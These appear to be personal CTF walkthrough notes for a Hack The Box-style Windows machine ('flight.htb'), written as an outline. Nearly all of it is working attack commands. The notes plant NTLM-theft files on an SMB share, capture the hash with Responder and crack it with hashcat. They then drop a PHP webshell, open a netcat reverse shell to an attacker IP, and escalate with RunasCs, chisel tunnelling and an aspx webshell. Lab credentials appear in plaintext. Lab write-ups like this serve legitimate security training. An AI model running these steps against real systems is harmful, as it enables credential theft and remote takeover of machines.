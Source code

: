 - S.Moon
	- crackmapexec smb $IP -u S.Moon -p 'S@Ss!K@*t13' --shares
		- READ on all same shares
		- Write over Shared
			- mkdir file_attacks
			- cd file_attacks
			- python ntlm_theft.py -g all -s A_IP -f 0xdf
			- sudo responder -I tun0
		- Put all files into Shared
			- smbclient //flight.htb/shared -U S.Moon 'S@Ss!K@*t13'
			- prompt false
			- mput *
		- Responder captures NTLMv2 hash
			- hashcat c.bum-net-ntlmv2 /usr/share/wordlists/rockyou.txt
				- C.Bum:Tikkycoll_431012284
- C.Bum
	- crackmapexec smb flight.htb -u c.bum -p 'Tikkycoll_431012284' --shares
		- READ over same shares
		- Write over Web and Shared
		- Web
			- put simple php rev shell
			- echo '<?php system($_REQUEST['cmd']); ?>' > webshell.php
		- curl school.flight.htb/styles/shell.php?cmd=whoami
			- We receive whoami results
			- Put nc.exe into web share
		- `curl -G school.flight.htb/styles/shell.php --data-urlencode 'cmd=nc64.exe -e cmd.exe 10.10.14.6 443'
			- Leads to RCE as svc_apache
### PE
#### Windows
- svc_apache
	- whoami /all
	- Root drive directory
		- inetpub
		- wwwroot
		- development
			- icacls development
				- C.Bum has write access
	
	- net user C.Bum
		- Check group memberships
		- Domain Users  WebDevs
	- netstat -ano
		- Active ports
			8000
	- Change Users
		- RunasCs.exe
			- On A: nc -lvnp 443
			- .\RunasCs.exe C.Bum Tikkycoll_431012284 -r !_IP:443 cmd
			- receive shell as C.Bum
- C.Bum
	- Setup chisel to view port 8000
		- ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
		- .\chisel client A_IP:8000 R:8001:127.0.0.1:8000
	- From firefox, http://127.0.0.1:80001
		- Internal flight website
		- Put a test text file in development directory
		- We can load the file.
		- Put aspx webshell in directory [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx]
		- Now we can run shell commands as defaultapppool
		- Use nc.exe to get rev shell as defaultapppool
- defaultapppool